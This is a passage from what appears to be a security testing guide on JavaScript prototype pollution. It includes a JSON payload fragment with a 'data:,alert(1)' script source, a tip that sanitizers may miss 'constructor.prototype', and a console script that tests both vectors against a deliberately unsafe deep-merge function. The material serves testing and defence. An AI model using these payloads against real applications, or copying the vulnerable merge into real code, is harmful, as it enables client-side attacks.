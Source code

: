            "src": "data:,alert(1)"
         }
       }
       ```
       - Testing insight: Some applications may sanitize `__proto__` but not `constructor.prototype`
       - JavaScript for testing JSON pollution in console:
       ```javascript
       // Test if prototype pollution is possible
       function testPrototypePollution() {
           const testProperty = 'testPollution' + Math.random().toString(36).substring(2);
           const testValue = 'polluted' + Math.random().toString(36).substring(2);
           
           // Try different pollution vectors
           const vectors = [
               { name: "__proto__", payload: { "__proto__": { [testProperty]: testValue } } },
               { name: "constructor.prototype", payload: { "constructor": { "prototype": { [testProperty]: testValue } } } }
           ];
           
           for (const vector of vectors) {
               // Create a test object and merge with payload
               const testObj = {};
               deepMerge(testObj, vector.payload);
               
               // Check if pollution worked
               const emptyObj = {};
               if (emptyObj[testProperty] === testValue) {
                   console.log(`Prototype pollution successful via ${vector.name}`);
                   // Clean up
                   delete Object.prototype[testProperty];
                   return true;
               }
           }
           
           console.log("No prototype pollution detected");
           return false;
       }
       
       // A basic deep merge function (similar to what vulnerable apps might use)
       function deepMerge(target, source) {
           for (const key in source) {
               if (source[key] && typeof source[key] === 'object') {
                   if (!target[key]) Object.assign(target, { [key]: {} });
                   deepMerge(target[key], source[key]);
               } else {
                   Object.assign(target, { [key]: source[key] });
               }
           }
           return target;
       }
       
       testPrototypePollution();
       ```
